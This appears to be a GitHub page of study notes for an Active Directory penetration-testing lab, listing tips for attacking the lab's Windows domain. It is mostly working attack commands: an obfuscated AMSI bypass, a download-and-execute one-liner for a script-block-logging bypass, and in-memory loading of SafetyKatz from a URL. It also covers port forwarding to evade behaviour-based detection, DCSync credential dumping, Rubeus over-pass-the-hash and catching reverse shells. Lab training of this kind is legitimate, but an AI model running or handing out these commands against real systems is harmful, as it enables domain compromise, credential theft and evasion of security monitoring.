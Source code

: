 # Tips and Tricks

- Remember to bypass AMSI on every new user and Check the Execution policy language mode
- Modify Invoke-Mimikatz.ps1 script to call the function in the script itself because we can't dot source files if in constrained language mode
- Use HFS(Http File Server) application to host scripts or payloads in windows environment.

- Use nc64.exe to catch reverse shell on windows host itself.

- If you have local administrator rights on other machines you can do anything including enabling rdp, enabling ps remoting, running script block to download tcp one liner reverse shell and executing it to catch reverse shell from script block and various other ways.

- https://github.com/Flangvik/NetLoader this can be used to load any C# binary from filepath or url, patching AMSI and unhooks ETW. ```C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe ```

- We also have AssemblyLoad.exe that can be used to load the Netloaderin-memory from a URL which then loads a binary from a filepathor URL. ```C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe```

# Port forward to bypass behaviour based detection
- executes port forward command on dcorp-mgmt machine where anything that is sent via 172.16.100.1 student machine's port 80 is forwarded to dcorp-mgmt's loopback address via port 8080 and anything that is sent through loopback 0.0.0.0 port 8080 is forwarded to 172.16.100.1's port 80 which is the student vm respectively.
```$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1```

- Host Loader.exe via HFS on student vm and here using winrs on dcorp-mgmt machine Loader.exe will load safetykatz from http://127.0.0.1:8080/SafetyKatz.exe since port forwarding was done that anything that is sent through loopback 0.0.0.0 port 8080 is forwarded to 172.16.100.1's port 80 which is the student vm in this case  
```$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit```

- OverPassThe Hash is the way to move laterally in most cases after you get credentials of users from different machines always use overpass the hash from the initial machine where you have administrative access not from the same machine where you got the hash.

- After over pass the hash always use invisi shell in the shell as that particular user.

To copy loader or rubues or any other tool on other machine where we have administrative access. ```echo F | xcopy C:\AD\Tools\Rubeus.exe \\dcorp-appsrv\C$\Users\Public\Loader.exe /Y```

- Getting http service ticket will allow for winrs

- Always bypass script block logging after moving laterally to a machine ```iex (iwr http://172.16.100.1/sbloggingbypass.txt -UseBasicParsing)``` then bypass AMSI ```S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )```

- While extracting aes keys for machin account always use the last one as we may find multiple aeskeys from same account see the SID 2-1-5-18 is for system account use this.

- remember Use bettersafetykatz for forging tickets and safetykatz for over pass the hash and extracting credentials.

- IF we are not able to winrs or access command line using other techniques after creating golden or silver ticket in memory we can perform dcsync to extract aes hash of default administrator of moneycorp.local domain then over pass the hash```C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\administrator /domain:moneycorp.local" "exit"``` then using rubeus to over pass the hash ```Rubeus.exe asktgt /user:moneycorp.local\administrator /domain:moneycorp.local /dc:mcorp-dc.moneycorp.local /aes256:a8596906b00af56 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt``` then winrs to access the dc ```winrs -r:mcorp-dc cmd```

- IF injected too many tickets certain problems may arise always logoff and logon at such cases.